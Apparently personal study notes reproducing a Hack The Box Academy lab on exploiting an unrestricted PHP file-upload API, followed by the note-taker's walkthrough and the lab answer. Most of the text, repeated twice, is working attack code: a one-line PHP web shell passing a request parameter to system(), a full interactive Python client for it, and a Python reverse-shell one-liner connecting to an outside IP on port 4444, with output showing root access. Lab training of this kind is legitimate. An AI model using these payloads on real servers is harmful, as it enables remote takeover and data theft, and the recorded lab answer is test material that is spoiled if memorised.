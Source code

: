 ```yaml
---
sticker: emoji//1f480
---
```

Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

---

## PHP File Upload via API to RCE

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing an application residing in `http://<TARGET IP>:3001`.

When we browse the application, an anonymous file uploading functionality sticks out. 

![image](https://academy.hackthebox.com/storage/modules/160/2.png)

Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality.


```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

- _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
- Using something like [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
- We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.

Code: python

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Use the script as follows.


```shell-session
smoothment@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.


```shell-session
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.192",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

# Question
---

![](cybersecurity/images/Pasted%2520image%252020250219162424.png)
Let's begin by going into the application:

![](cybersecurity/images/Pasted%2520image%252020250219162641.png)


We can upload files, let's upload a file named `backdoor.php` with the following contents:

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

![](cybersecurity/images/Pasted%2520image%252020250219162652.png)

Let's use this python script to interact with our webshell:

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Now, let's use it:

```shell-session
python3 web_shell.py -t http://10.129.27.149:3001/uploads/backdoor.php -o yes
```

We get a shell:

![](cybersecurity/images/Pasted%2520image%252020250219162817.png)

We can try moving it to netcat, let's set up a listener and use the following:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.192",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

We get this:
![](cybersecurity/images/Pasted%2520image%252020250219164104.png)

We got a shell in netcat, now, let's read the hostname:

```
root@nix01-websvc:/app/php/uploads# cat /etc/hostname

nix01-websvc
```

Answer is:

```
nix01-websvc
```
